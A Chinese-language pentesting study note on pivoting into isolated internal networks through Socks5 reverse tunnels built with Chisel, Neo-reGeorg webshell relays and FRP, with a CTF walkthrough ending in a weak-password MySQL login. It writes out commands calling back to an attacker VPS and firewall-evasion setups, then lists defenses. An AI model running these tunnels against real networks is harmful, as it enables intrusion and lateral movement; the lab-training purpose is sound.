


# 🚇 内网渗透生命线：代理穿透、Socks5 协议、反向隧道机制与三大穿透神器 (Chisel / Neo-reGeorg / FRP) 实战

> **学习指南**：在 CTF 线下 AWD、综合渗透靶场（如 Vulnstack、Hack The Box）以及真实红蓝对抗中，边界 Web 漏洞拿下的机器通常只是一块“跳板（Pivot）”。
> 真正存放核心数据库、管理后台或 Flag 的内网主机（例如 `192.168.10.x`），处于深层局域网内，**外部公网无法直接路由访问**！
> 本篇笔记从 0 开始讲解局域网 NAT 隔离原理，用通俗的比喻解释为什么必须建立“反向隧道”，并全面传授如何利用 Socks5 代理把攻击者的整套工具链（Nmap、Burp、SQLMap）无缝输送进目标内网！

---


> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。

## 一、小白零基础扫盲：为什么公网无法直接访问内网？

### 1. 通俗比喻：公网 IP 是“公司前台总机”，内网 IP 是“工位分机号”

* **NAT（网络地址转换）现实场景**：
  * 目标企业在公网上只有一个合法的 IP 地址（比如 `203.0.113.5`），对应前台总机；
  * 而内网有 500 台电脑（如 `192.168.1.2`, `192.168.1.3`...），对应各个员工工位上的分机号；
  * 如果你在家里（公网黑客）直接拨打“分机 3 号”，电信网络根本不知道该往哪里路由，直接报错无法接通！
* **防火墙的核心铁律：“出站宽松，入站严密”**：
  * **正向连接（公网 $\rightarrow$ 内网）**：外部主动连接内网，会被企业边界防火墙瞬间 Drop 丢弃！
  * **反向连接（内网 $\rightarrow$ 公网）**：**内网主机主动向外部网站（如黑客 VPS）发起的连接，防火墙通常认为是正常的员工上网行为，一路绿灯放行！**



---

### 2. 什么是 Socks5 代理？为什么它是内网渗透的“万能胶水”？

* **HTTP 代理 vs Socks5 代理**：
  * **HTTP 代理（工作在第 7 层应用层）**：只能看懂和转发 HTTP/HTTPS 网页流量，无法转发 MySQL、SSH、RDP 远程桌面等非 Web 流量；
  * **Socks5 代理（工作在第 5 层会话层）**：它不关心上层传输的是什么业务协议！**它纯粹负责在客户端与目标端之间建立透明的 TCP/UDP 管道**。
  * 无论你是想用本地的 Navicat 连内网数据库，还是用远程桌面 mstsc 连内网 Windows，只要套上 Socks5 代理，所有流量都可以透明直达！

---

## 二、三大主流内网穿透与隧道神器全景实战

针对不同严格程度的内网网络策略，我们需要常备以下三种不同维度的隧道工具：

### 1. 神器一：Chisel（现代 CTF 与实战首选，单二进制免依赖，WebSocket 隐蔽封装）

* **最大优势**：Go 语言编写的单一静态编译二进制文件（无需安装任何运行环境），将 Socks5 流量**深度伪装在标准的 HTTP/WebSocket 协议中**，能够骗过绝大多数深度包检测（DPI）防火墙！

#### 实战操作两步走：



#### 命令行执行语法：
1. **攻击者 VPS（开启服务端）**：
   ```bash
   ./chisel server -p 8000 --reverse
   ```
2. **内网跳板机（发起反向连接）**：
   ```bash
   ./chisel client 10.10.14.2:8000 R:1080:socks
   ```
* **执行效果**：
  攻击者 VPS 本地的 `127.0.0.1:1080` 端口立即成为一个全功能的 Socks5 代理端口！任何发往该端口的流量，都会被自动转给内网跳板机，由跳板机代为向内网目标发起发包！

---

### 2. 神器二：Neo-reGeorg（Web 隧道之王，不出网绝对绝境神技）

* **面临的极端绝境**：
  目标内网安全策略极其严苛：**禁止跳板机向外部发起任何 TCP 连接（彻底不出网，所有高位端口被封杀）！**
  这种情况下，无论 Chisel 还是反向 Shell 统统失效！
* **破局原理**：
  只要目标服务器对外开放了 80 或 443 端口，且我们已经拿到了一个 WebShell：
  **Neo-reGeorg 将所有 Socks5 流量进行加密切片，藏在正常的 HTTP POST 请求与响应中**，由服务端的 `tunnel.php` / `tunnel.jsp` 脚本充当通信中继！

#### 搭建流程：
1. **生成隧道中继脚本（攻击者本地）**：
   ```bash
   python3 neoreg.py generate -k MySuperSecretKey2026
   ```
   工具会在本地生成各种语言的脚本（`tunnel.php`, `tunnel.jsp`, `tunnel.aspx`）。
2. **上传脚本到靶机 Web 根目录**：
   将 `tunnel.php` 上传至 `http://target.ctf:8080/tunnel.php`。
3. **本地启动客户端连接**：
   ```bash
   python3 neoreg.py -u http://target.ctf:8080/tunnel.php -k MySuperSecretKey2026 -p 1080
   ```
* **效果**：本地 `127.0.0.1:1080` 瞬间变为 Socks5 代理！整个穿透过程全部走正常的 80 端口 HTTP 通信，防火墙根本无法察觉！

---

### 3. 神器三：FRP（工业级稳定反向代理）

适合需要长期稳定维护、多端口映射或内网穿透测试的复杂场景。

#### 1. 攻击者服务端配置文件（`frps.toml`）：
```toml
bind_port = 7000
```
启动命令：`./frps -c frps.toml`

#### 2. 内网跳板机客户端配置文件（`frpc.toml`，基于 FRP v0.52+ TOML 规范）：
```toml
serverAddr = "10.10.14.2"
serverPort = 7000

[[proxies]]
name = "intranet_socks5"
type = "tcp"
remotePort = 10808
[proxies.plugin]
type = "socks5"
```

> [!NOTE] 💡 经典 INI 语法对照（适用于 FRP < v0.52 旧版本）
> FRP 原生仅支持 `tcp`、`udp`、`http`、`https` 等传输类型，**没有原生的独立 `type = socks5`**！
> 搭建 Socks5 代理必须采用 `type = tcp` 并在其下挂载 `plugin = socks5` 插件：
> ```ini
> [common]
> server_addr = 10.10.14.2
> server_port = 7000
> 
> [intranet_socks5]
> type = tcp
> remote_port = 10808
> plugin = socks5
> ```

启动命令：`./frpc -c frpc.toml`
* 启动后，FRP 客户端会在跳板机本地动态拉起一个 Socks5 代理服务，并通过反向 TCP 隧道将其端口映射到攻击者 VPS 的 `10.10.14.2:10808`！
* 攻击者直接在本地将代理指向 `10.10.14.2:10808` 即可无缝漫游目标内网。

---

## 三、攻击者工具链集成：Proxychains4 配置与常见避坑陷阱

有了本地的 Socks5 代理端口（如 `127.0.0.1:1080`），我们如何让本地的各种黑客工具（Nmap, Curl, Python）全部走代理？

### 1. 配置 Linux 系统级代理工具 `proxychains4`
编辑配置文件 `/etc/proxychains4.conf`：
在文件最末尾的 `[ProxyList]` 下添加你的代理信息：
```text
[ProxyList]
socks5  127.0.0.1  1080
```

---

### 2. 实战致命避坑警示：为什么 `proxychains nmap` 会报错超时？

> [!CAUTION]
> **初学者最常犯的致命错误**：
> 运行命令：`proxychains nmap 192.168.10.20`
> 结果：屏幕上疯狂报错 `connect: connection refused` 或全部端口显示为 filtered！
> **底层原因**：
> Nmap 默认采用的是 **SYN 半开放扫描（RAW Socket，构造原生 TCP SYN 包）**！
> 而 **Socks5 代理工作在会话层，它根本无法转发底层的 RAW 网络数据包！**

#### ✅ 正确的解决方案：
当通过 Proxychains 使用 Nmap 扫描内网时，**必须强制添加 `-sT`（全连接 TCP Connect 扫描）和 `-Pn`（禁用 ICMP Ping 探测）参数**！
```bash
# ✅ 正确标准扫描指令:
proxychains4 nmap -sT -Pn -sV -p 80,3306,6379,8080,22 192.168.10.20
```

---

## 四、CTF 实战靶场案例复现（二阶段内网隔离数据库夺旗）

### 靶场情境：双层网络隔离架构

* **跳板机 A（DMZ 区）**：
  * 外网 IP：`10.10.10.5`（对外暴露 Web 服务，存在文件上传漏洞已拿到 Webshell）；
  * 内网网卡 IP：`192.168.100.10`。
* **目标靶机 B（核心数据区）**：
  * 仅拥有内网 IP：`192.168.100.20`；
  * 不出网，公网黑客电脑完全无法直接 ping 通或连接；
  * 题目提示：最终 Flag 保存在靶机 B 的 MySQL 数据库中（账号 `root`，弱密码 `root123`）。

---

### 1. 阶段一：在跳板机建立 Chisel 反向隧道
1. 攻击者公网机器（`10.10.14.2`）启动 Chisel：
   ```bash
   ./chisel server -p 8000 --reverse
   ```
2. 通过 WebShell 终端在跳板机 A 上执行客户端：
   ```bash
   ./chisel client 10.10.14.2:8000 R:1080:socks
   ```
3. 攻击者本地 `127.0.0.1:1080` 代理通道就绪。

---

### 2. 阶段二：利用 Proxychains 刺探并直连深层内网数据库

#### 1. 验证内网联通性与端口存活：
```bash
proxychains4 curl http://192.168.100.20/
# 或扫描 MySQL 3306 端口:
proxychains4 nmap -sT -Pn -p 3306 192.168.100.20
```
终端显示：
```text
|S-chain|...<->...127.0.0.1:1080<->...192.168.100.20:3306<--OK
3306/tcp open  mysql
```

#### 2. 本地直接调用原生客户端登录内网数据库：
```bash
proxychains4 mysql -h 192.168.100.20 -P 3306 -u root -proot123
```
* **奇迹时刻**：攻击者在自己的电脑终端上，顺畅地进入了身处深层内网隔离靶机的 MySQL 交互终端！

```sql
mysql> SHOW DATABASES;
mysql> USE ctf_vault;
mysql> SELECT * FROM flags;
+----+---------------------------------------------------+
| id | flag_data                                         |
+----+---------------------------------------------------+
|  1 | flag{ch1s3l_s0cks5_tunn3l_p1v0t1ng_m4st3r_pwnd}  |
+----+---------------------------------------------------+
```
成功在完全无法直接路由的目标内网中，借助反向代理隧道完成无障碍横向穿透与夺旗！

---

## 五、安全防护与内网隧道阻断策略

1. **严格限制出站网络策略（Egress Filtering）**：
   在企业防火墙上，默认禁止内部生产服务器主动向外部高位端口发起 TCP 连接，仅允许业务必需的白名单出站请求。
2. **部署网络流量分析（NTA / NDR）检测心跳异常**：
   监控长周期、高频次、带有伪装特征的外部 HTTP/WebSocket 长连接流量（如 Chisel 的握手特征与 Neo-reGeorg 的密集小包 POST 请求）。
3. **主机安全 Agent（HIDS）进程行为监控**：
   实时监测跳板机上的可执行文件执行情况，对 `chisel`、`frpc` 等高危进程名及带有 `socks` 参数的命令行调用实施秒级告警与自动阻断。

---

## 🔗 相关双向链接
- 上级模块：[[13-内网横向移动与代理穿透]]
- 进阶拓展：[[02-内网主机发现与横向移动手法全景]]
- 知识地图：[[00-Web安全与CTF知识地图总览]]
